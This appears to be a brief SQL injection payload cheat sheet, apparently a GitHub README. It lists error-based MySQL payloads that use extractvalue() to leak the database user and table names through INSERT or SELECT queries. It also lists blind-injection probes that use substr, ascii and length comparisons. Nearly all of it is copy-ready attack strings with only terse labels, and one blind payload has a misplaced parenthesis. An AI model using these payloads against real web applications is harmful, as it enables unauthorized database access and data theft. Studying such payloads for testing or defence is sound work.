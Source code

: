 PAYLOAD
====

<H3>Errror base payload:
  
     
  If data is passsing INSERT querry and error is triggering

' or extractvalue(1,concat(0x7e,user())) or ' to find user()
  
' or extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1))) or ' to find table name

If data is passing in select querry

and extractvalue(1,concat(0x7e,user())) to find user()
  
and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1))) to find table name

<h3>blindsqli<h3>
  
  substring()
  
  substr(user(),1,1)>'a'   position* character*
  
  ascii()
  
  ascii(substr(user(),1,1))>10

length()
  
  length(database())>10
  
  Inline querry
  
  ascii(substr(select table_name from information_schema.tables where table_schema=database() limit 0,1)),1,1)>100 to find table name
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
